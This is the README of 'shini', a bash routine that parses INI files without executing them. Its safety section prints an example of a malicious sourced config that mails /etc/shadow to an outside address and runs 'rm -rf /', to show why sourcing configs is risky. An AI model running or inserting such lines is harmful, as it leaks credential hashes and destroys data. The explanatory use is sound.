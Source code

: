 shini
=====

A small, minimalist, <s>portable</s> <em>compatible</em><sup>1</sup> `/bin/bash` routine for reading of INI files.

<em><sup>1</sup> This script previously attempted to be "portable", that is to say - written in a manner that it would reliably have a good chance of running anywhere with no specific implementation coded inside.  In order to gain usable performance on INI files bigger than "very small", it has since been modified to include shell specific implementation for recent versions of `bash` - considerably increasing performance at the cost of code complexity.  Therefore, I am calling it 'compatible' herein.</em>

NOTE by pachi-belero: this fork contains a very simplified version of the original `shini`, which disables callbacks and writing, as well as support for old shell versions (and any shell different from bash).

## About

### What is `shini`?
As above.  It's a small set of functions written for inclusion in shell scripts, released under the MIT license.

### Is it slow?
Shell scripting was never designed with speed for this kind of processing in mind.  That said, on recent versions of `bash` (version 3 or newer) the performance is quite acceptable.

On an 2012 i7 MacBook, a 1900 line INI file will fully parse within 0.6s:

    $ wc -l tests/php.ini 
    1917 tests/php.ini

    $ time bash ./test_perf.sh > /dev/null
    real    0m0.838s

    $ time bash ./test_perf.sh opcache > /dev/null
    real    0m0.313s

### Why do I need it?
You probably don't.  But if you have or ever do find yourself writing a shell script which:
 * Needs system or user specific settings
 * Needs to read an existing INI file

... then you might find `shini` saves you a lot of time, and makes things safer.

### How can it make things safer?
Because system and user specific settings in shell scripts usually end up implemented as:

```
# /usr/local/sbin/rootonlyscript
. /etc/myscript
if [ -n SETTING1 ]; then
  echo "You didn't specify SETTING1" 1>&2
fi
```

The settings file looks like:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
```
... and everything is cool until *this* happens:

```
# /etc/myscript
SETTING1='abc'
SETTING2='def'
cat /etc/shadow | mail someone@wishyouwerehere.com
rm -rf /
```

Alas, bye bye shadow file - bye bye system.

`shini` only reads the file; never includes, interprets or executes it.  A better solution.

### So `shini` just makes my shell script secure?

Erm, no.  Please go away and learn to code before proceeding.

Remember:
 * Your config file must always have sane file permissions - even if its an INI file
 * `shini` is to be included in your script - so it should be located somewhere safe, and with read-only permissions

Best advice, if in doubt:

```
sudo chown root:root shell-ini-parser.sh
sudo chmod 644 shell-ini-parser.sh
```

## Usage

### Show me `shini`!

To see `shini` in action in under 2 minutes:

```
cd "$(mktemp -d -t shini)"
curl https://codeload.github.com/wallyhall/shini/tar.gz/master -o master.tar.gz
tar -xvzf master.tar.gz
chmod +x shini-master/example.sh
cd shini-master/
sh example.sh
```

You should be presented with some output like this:

```
Parsing...

  Section1.name='John Doe'
  Section1.organization='Acme Widgets Inc.'
  Section2.server='10.1.2.3'
  Section2.port='80'
  Section2.file='payroll.dat'
  Section2.this_value_was_in_hex='8739'
  Another_Section.test_key_22='test test test'
  Another_Section.var_with_leading_whitespace='value'
  Another_Section.whitespace_test='lots of whitespace'
  Another_Section.quoted_quotespace='  lots more whitespace  '
  Whitespace_Section.null_value=''

Complete.
```

You've just executed the shipped example/test script (`example.sh`) - which parses an example INI file (`example.ini`) - outputting the content in the format `[section].[key]=[value]`.

## Cool.  Now show me how to include and use it myself!

Inclusion of `shini` in your own project is easy.  You can put the content of `shell-ini-parser.sh` inline with your own code (not recommended, but acceptable.  Make sure you appropriately include the MIT license...), or 'source' it externally - i.e.:

```
. "$(dirname "$0")/shell-ini-parser.sh"
. "/usr/local/bin/shell-ini-parser.sh"
... etc
```

`shini` works by parsing INI files line by line - skipping comments.

Each argument can should be carefully handled - always double quote (unless you're certain what you're doing).  Never forget you can't guarantee what is in the INI file being parsed - it could be with evil intent.

When you're ready, invoke the parse function and (optionally) specify the specific INI section you're interested in:

```
shini_parse_section "settings.ini"
shini_parse_section "settings.ini" "SomeSection"
```

Bingo.  A full (and simple example) can be found in `example.sh`.

## Known caveats, etc

### Does `shini` follow the official INI format standards?

There are no INI format standards - so yes it does and no it doesn't?

`shini` assumes:

 * Every declaration is on a new line
 * __Sections__ are contained in square brackets, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (no spaces by default) - e.g. `[section]`
 * __Keys__ are followed by an assignment (equal) sign, and include `a-z`, `A-Z`, `0-9`, `-` and `_` (again, no spaces by default) - e.g. `key=`
 * __Values__ follow keys, on the same line.  Anything is valid, except double quotes and semi-colons.  Hexadecimal values (i.e. `0x123`) are parsed and converted to decimal for you.
 * __Comments__ are lines starting with a semi-colon (`;`), such lines are ignored.
 * __Whitespace__ is ignored everywhere - except in between non-whitespace characters in values.  Use double quotes (`"`) to be explicit (e.g. `key=" leading/trailing WS "`)

Due to portability constraints - some of the useful regex power isn't available to `shini`.

This caused some trade-offs - with a lack of efficient control over lazy vs greedy repeats and optional groups etc, comments can only follow key/pair values and empty lines (not sections) - and where it follows values, any whitespace between the value and semi-colon is included as the value.  Explicitly use of double-quotes around the value gets around this issue.

Additionally if your key/value declaration looks like this:

```
key="value" "more text" ; comment
```

... the value reads literally:

```
"value" "more text" ; comment
```

Otherwise, all known "obviously invalid" INI content gets picked up and reported.
